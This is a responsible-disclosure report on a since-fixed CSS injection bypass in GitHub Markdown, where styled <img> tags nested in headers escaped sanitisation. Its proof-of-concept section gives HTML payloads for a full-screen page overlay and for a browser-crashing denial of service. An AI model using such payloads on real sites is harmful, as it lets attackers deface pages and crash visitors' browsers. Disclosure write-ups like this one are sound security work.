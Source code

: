 # 2023/10 Github markdown vulnerability

### Executive Summary
- **Date of Discovery:** October 8, 2023
- **Date of Initial Report:** October 10, 2023
- **Date of Resolution:** October 15, 2023
- **Identified By:** Luna Davis ([Bytexenon](https://github.com/Bytexenon))
- **Classification of Vulnerability:** CSS Injection 
- **Services Impacted:** Github (https://github.com/), Github-Favored Markdown (https://github.github.com/gfm/)
- **Extent of Impact:** The vulnerability has a broad reach, affecting multiple URL patterns on GitHub. This includes user and organization profiles, repository main pages, individual issue pages, and Markdown files within any repository. The specific patterns that are impacted include:
  - `https://github.com/<user,organization>` (If a malicious `README.md` exists in the user or organization's repository)
  - `https://github.com/<user,organization>/<repository>` (If the repository has a malicious `README.md` file)
  - `https://github.com/<user,organization>/<repository>/issues/<issue>`
  - `https://github.com/<user,organization>/<repository>/**.md` (Any `.md` file in any directory)
  - `https://github.com/<user,organization>/<repository>/**` (If the directory has a malicious `README.md` file)
  - Additional patterns may be affected, but these are the ones that have been tested so far. Essentially, any URL that renders a user-entered Markdown file was vulnerable.
- **Method of Discovery:** Manual Testing
- **Severity Level:** Low to Medium. The exploit does not enable arbitrary code execution, data theft, or redirection to malicious sites. However, it does allow an attacker to replace an attacker-controlled page (their own Github profile, any of their issues, etc.) with a full-screen image with any CSS styling, or to create a series of images that could crash the browser.
- **Current Status:** Resolved.

### Description

Github's markdown parser, known as cmark, allows for the use of HTML tags to enhance the formatting of the markdown. However, for security reasons, it restricts the use of certain attributes such as style and script to prevent potential Cross-Site Scripting (XSS) and CSS Injection attacks. Despite these restrictions, I discovered a bypass that allows the style attribute to be used within an `<img>` element, but only when this element is nested inside any header (`<h1>`, `<h2>`, `<h3>`, `<h4>`, `<h5>`, `<h6>`) element. This bypass can be exploited to apply arbitrary CSS styles to the image, potentially leading to various forms of visual manipulation on the rendered page.

### Discovery

While experimenting with Github's markdown parser to enhance the aesthetics of my profile's README.md file, I discovered that HTML tags were permissible in their markdown. This is a common feature in most markdown parsers to allow for more complex formatting. However, what caught my attention was the ability to use the style attribute within nested `<img>` elements that were inside any header elements. This was an unexpected behavior as the style attribute is typically restricted to prevent potential XSS/CSS-Injection attacks.

To validate this finding, I created a simple HTML page with a nested `<img>` element inside a header element and applied a style attribute to it. I then uploaded this HTML content to my Github profile's README.md file. To my surprise, the style attribute was successfully rendered, allowing me to apply arbitrary CSS styles to the image.

Intrigued by this discovery, I decided to test this behavior on other Github pages. I found that this bypass was not limited to the README.md file of my profile but was applicable on any Github page that rendered a user-entered Markdown file. This included user and organization profiles, repository main pages, individual issue pages, and Markdown files within any repository. This discovery indicated a widespread impact of this vulnerability, affecting multiple URL patterns on GitHub.

### Proof of Concept

**Replace any page with Github's full-screen favicon:**
```html
<h1>
  <img style="position:fixed;left:0%;top:0%;opacity:100%;z-index:999;width:100%;height:100%;background-image:url(https://github.com/favicon.ico);">
</h1>
```

**DoS attack against any browser that renders the page:**
```html
<h1>
  <img style="position: fixed; filter: blur(0px) saturation(21.75); opacity: 50%; top: 50%; z-index: 9999999; left: 50%; transform: translate(-50%, -50%) rotate(0deg); cursor: url(https://github.com/favicon.ico) 20 2, pointer; width: 100vw; height: 100%; background-image: url(https://github.com/favicon.ico); filter: blur(9999px) brightness(9999%) contrast(9999%) drop-shadow(9999999999px 9999999999px 9999999999px red) invert(9999999999%); transform: rotate(45deg) scale(99999) skew(30deg, 20deg) translate(100px, 100px);">
  <img style="position: fixed; filter: blur(0px) saturation(21.75); opacity: 50%; top: 50%; z-index: 9999999; left: 50%; transform: translate(-50%, -50%) rotate(0deg); cursor: url(https://github.com/favicon.ico) 20 2, pointer; width: 100vw; height: 100%; background-image: url(https://github.com/favicon.ico); filter: blur(9999px) brightness(9999%) contrast(9999%) drop-shadow(9999999999px 9999999999px 9999999999px red) invert(9999999999%); transform: rotate(45deg) scale(99999) skew(30deg, 20deg) translate(100px, 100px);">
  <img style="position: fixed; filter: blur(0px) saturation(21.75); opacity: 50%; top: 50%; z-index: 9999999; left: 50%; transform: translate(-50%, -50%) rotate(0deg); cursor: url(https://github.com/favicon.ico) 20 2, pointer; width: 100vw; height: 100%; background-image: url(https://github.com/favicon.ico); filter: blur(9999px) brightness(9999%) contrast(9999%) drop-shadow(9999999999px 9999999999px 9999999999px red) invert(9999999999%); transform: rotate(45deg) scale(99999) skew(30deg, 20deg) translate(100px, 100px);">
  <img style="position: fixed; filter: blur(0px) saturation(21.75); opacity: 50%; top: 50%; z-index: 9999999; left: 50%; transform: translate(-50%, -50%) rotate(0deg); cursor: url(https://github.com/favicon.ico) 20 2, pointer; width: 100vw; height: 100%; background-image: url(https://github.com/favicon.ico); filter: blur(9999px) brightness(9999%) contrast(9999%) drop-shadow(9999999999px 9999999999px 9999999999px red) invert(9999999999%); transform: rotate(45deg) scale(99999) skew(30deg, 20deg) translate(100px, 100px);">
  <img style="position: fixed; filter: blur(0px) saturation(21.75); opacity: 50%; top: 50%; z-index: 9999999; left: 50%; transform: translate(-50%, -50%) rotate(0deg); cursor: url(https://github.com/favicon.ico) 20 2, pointer; width: 100vw; height: 100%; background-image: url(https://github.com/favicon.ico); filter: blur(9999px) brightness(9999%) contrast(9999%) drop-shadow(9999999999px 9999999999px 9999999999px red) invert(9999999999%); transform: rotate(45deg) scale(99999) skew(30deg, 20deg) translate(100px, 100px);">
</h1>
```
(Could be repeated indefinitely to make it more effective)

### Resolution

The GitHub security team demonstrated exceptional responsiveness and efficiency in addressing the reported vulnerability. Within a week of the initial report, they successfully resolved the issue, reflecting their commitment to maintaining a secure platform. Their cooperation and assistance throughout the process were commendable.

**Screenshots of the partial conversation:**

[My initial report](images/image-1.png)

[Github's response 1](images/image-2.png)

[Github's resolution response](images/image-3.png)

The name of the security engineer has been redacted for privacy reasons.

### Archived pages of the vulnerability

[My profile](https://web.archive.org/web/20231009182556/https://github.com/ByteXenon)

This page was archived after the vulnerability was reported, but before it was resolved. It shows the exploit in action. My profile page has since been updated to remove the exploit, and the exploit was never used for malicious purposes as far as I know (which is really fortunate, because it would have been very easy to do so)

### Closing Thoughts

In retrospect, while I was aware of conventional vulnerability-reporting platforms such as HackerOne, I was not aware at the time that GitHub utilized this platform for their bug bounty program. My primary goal was to ensure the vulnerability was reported as quickly as possible, and as such, I used the most immediate channel available to me, which was GitHub's support form.

Despite this initial misstep, the experience was highly educational. The responsiveness and helpfulness of GitHub's team were commendable. Their handling of the vulnerability report serves as an excellent example for others. I look forward to potentially uncovering more vulnerabilities in their service and reporting them through the appropriate channels. Thank you for taking the time to read this report. Have a great day!